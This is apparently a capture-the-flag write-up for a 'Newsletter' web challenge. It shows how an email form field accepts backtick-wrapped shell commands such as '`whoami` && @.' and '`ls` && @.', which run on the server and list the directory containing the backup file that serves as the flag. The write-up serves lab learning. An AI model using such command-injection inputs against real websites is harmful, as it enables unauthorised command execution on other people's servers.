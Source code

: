 ## Newsletter
```
the administrator put the backup file in the same root folder as the application, help us download this backup by retrieving the backup file name
```

## Solve:

- After visiting the webpage, you'll see a form that requires an email.


- Enter any input to see if there are any restrictions, you will find that you have to enter an email address with the correct format to proceed.


- Try inputting anything again but this time adding a *"@."* after your entry, you'll find that you are able to successfully input a string


- I tried to SQL injection, but it didn't succeed ...


- Trying a different approach
    ```
    `whoami` && @.
    ```
    - Results:
    ```
    www-data
    ```


- Now we know that it works, so we can try to *"ls"*
    ```
    `ls` && @.
    ```
    - Results:
    ```
    emails_secret_1337.txt hgdr64.backup.tar.gz index.php
    ```


- Considering the challenge description, we can understand that the flag is the name of the backup file.

> **Flag: hgdr64.backup.tar.gz**